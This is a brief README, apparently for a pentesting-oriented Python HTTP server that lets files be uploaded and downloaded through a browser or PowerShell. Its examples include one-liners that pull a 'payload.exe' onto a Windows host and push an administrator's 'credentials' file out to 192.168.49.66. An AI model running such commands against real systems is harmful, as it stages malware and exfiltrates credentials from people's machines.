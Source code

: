 # Multi-functions python HTTP Server
A HTTP Server for downloading or uploading file.

Usage:
Start HTTP Server
```bash
python3 HTTP_Server.py
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

sudo python3 HTTP_Server.py 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Option1:
Download or upload file using web browser
Visit http://[host.ip]:8080

Option2:
Download file  
`Invoke-WebRequest -Uri http://192.168.49.66:8080/payload.exe -OutFile payload.exe`
Upload file
`Invoke-Restmethod -uri http://192.168.49.66:8080/credentials.zip -Method Put -Infile C:\\users\\administrator\\desktop\\credentials`

